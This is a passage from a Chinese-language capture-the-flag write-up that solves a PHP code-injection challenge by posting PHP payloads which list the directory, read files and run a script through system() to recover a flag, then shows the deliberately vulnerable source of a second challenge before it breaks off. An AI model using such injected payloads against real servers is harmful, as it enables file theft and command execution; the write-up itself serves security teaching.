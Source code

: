 由于代码只有一行，所以按照自然的逻辑，先看看当前目录里面有什么文件吧！

在 POST 请求的 body 中选择 formdata,
key 为 1 填入如下代码：利用 DirectoryIterator 可以遍历获取某个文件夹中的文件

```php
foreach (new DirectoryIterator('.') as $fileInfo) {
    if ($fileInfo->isDot()) continue;
    echo $fileInfo->getFilename() . "<br\>n";
}
```

![](/images/2023/041.png)

不难发现同目录下面存在着一个文件 flag.sh，这里指定大有文章，我们再来获取一下这个文件的内容

可以利用 readfile 函数获取文件内容

![](/images/2023/042.png)

可以看到该脚本会把存放在环境变量中的 flag 的值存放到 /flag 文件中，顺理成章我们可以利用 php 的 system 函数执行 flag.sh，然后再如法炮制，读取 /flag 的内容即可获得本题的 flag：
<span style="color: #2a8dd5">flag{a5507c7f-02b4-4d79-8284-6dbafef3bda0}</span>

执行 flag.sh `$x=system('./flag.sh'); var_dump($x);`

读取 /flag `$x=readfile('/flag'); var_dump($x);`

![](/images/2023/043.png)

![](/images/2023/044.png)

### **8. 天狗的 PHP**

![](/images/2023/045.png)

解题过程：

直接访问容器可以得到源代码：

```php
<?php
error_reporting(0);
show_source(__FILE__);

$a = $_GET["a"];
$b = $_GET["b"];
$c = $_GET["c"];
$d = $_GET["d"];
$e = $_GET["e"];
$f = $_GET["f"];
$g = $_GET["g"];

if (preg_match("/Error|ArrayIterator|SplFileObject/i", $a)) {
    die("什么原生类，我不懂啊");
}

if (preg_match("/php/i", $b)) {
    die("根本用不上");
}

if (preg_match("/Error|ArrayIterator/i", $c)) {
    die("现在是，幻想时间");
}

$class = new $a($b);
$str1 = substr($class->$c(), $d, $e);
$str2 = substr($class->$c(), $f, $g);
```